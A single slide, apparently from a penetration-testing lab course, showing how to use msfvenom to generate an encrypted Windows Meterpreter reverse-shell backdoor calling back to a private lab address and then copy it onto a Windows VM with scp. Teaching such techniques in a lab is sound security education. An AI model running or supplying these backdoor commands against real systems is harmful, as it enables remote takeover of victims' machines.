

# 2. Msfvenom to Create Backdoor
Command to create a backdoor
msfvenom --encrypt aes256 -p windows/meterpreter/reverse_tcp LHOST=192.168.7.129 LPORT=4545 -f exe fine2.exe
Copy fine2.exe to Windows VM
Open a command console (cmd.exe)
scp -P 2022 kali@192.168.7.129:~/fine2.exe .
40